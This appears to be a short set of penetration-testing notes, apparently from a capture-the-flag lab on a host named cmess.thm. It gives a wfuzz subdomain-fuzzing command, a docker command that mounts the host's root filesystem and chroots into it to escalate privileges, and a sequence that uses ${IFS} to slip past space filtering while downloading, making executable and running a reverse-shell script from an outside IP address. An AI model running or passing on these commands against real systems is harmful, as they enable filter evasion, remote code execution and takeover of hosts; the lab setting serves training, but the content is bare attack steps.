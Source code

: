 subdomain fuzzer

>   wfuzz -c -f sub-fighter -w top5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm"


docker run -v /:/mnt --rm -it bash chroot /mnt sh

##  Space restriction bypass with `[${IFS}]`

>   wget${IFS}http://10.10.12.52/rev.sh

>   chmod${IFS}777${IFS}rev.sh

>   bash${IFS} rev.sh